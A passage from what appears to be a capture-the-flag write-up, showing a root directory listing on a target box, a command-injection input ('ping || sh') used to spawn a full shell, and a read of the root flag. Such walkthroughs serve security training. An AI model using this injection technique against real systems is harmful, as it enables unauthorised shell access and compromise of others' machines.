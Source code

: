 ```
drwxr-xr-x  2 root root  4096 Jun  3  2013 mnt
drwxr-xr-x  2 root root  4096 Apr 18  2017 opt
dr-xr-xr-x 82 root root     0 Jul 10 16:01 proc
drwx------  5 root root  4096 Jul 10 17:18 root
drwxr-xr-x 13 root root   600 Jul 10 17:19 run
drwxr-xr-x  2 root root  4096 Apr 18  2017 sbin
drwxr-xr-x  2 root root  4096 Jun 10  2012 selinux
drwxr-xr-x  2 root root  4096 Apr 18  2017 srv
drwxr-xr-x 13 root root     0 Jul 10 16:01 sys
drwxrwxrwt 20 root root  4096 Jul 11 14:17 tmp
drwxr-xr-x 10 root root  4096 Apr 18  2017 usr
drwxr-xr-x 11 root root  4096 Apr 18  2017 var
lrwxrwxrwx  1 root root    26 Apr 18  2017 vmlinuz -> boot/vmlinuz-3.2.0-4-amd64
$ ping || sh
Usage: ping [-LRUbdfnqrvVaAD] [-c count] [-i interval] [-w deadline]
            [-p pattern] [-s packetsize] [-t ttl] [-I interface]
            [-M pmtudisc-hint] [-m mark] [-S sndbuf]
            [-T tstamp-options] [-Q tos] [hop1 ...] destination
$
```

Getting the full shell is a little obscure but quite straightforward. Now that we can actually do things, we can claim the next flag.

```
$ cat /root/flag
KCORP{[REDACTED]}
```

## Recon Again
I actually haven't really looked around on this box yet. This was intentionaly left as an exercise for the reader... Apparently there's 5 boxes in total and there's three flags you can enter on the scoreboard. There's also that IP address we discovered in the helpdesk that we haven't done anything with yet, so there's definitely a lot more to do. Best of luck.
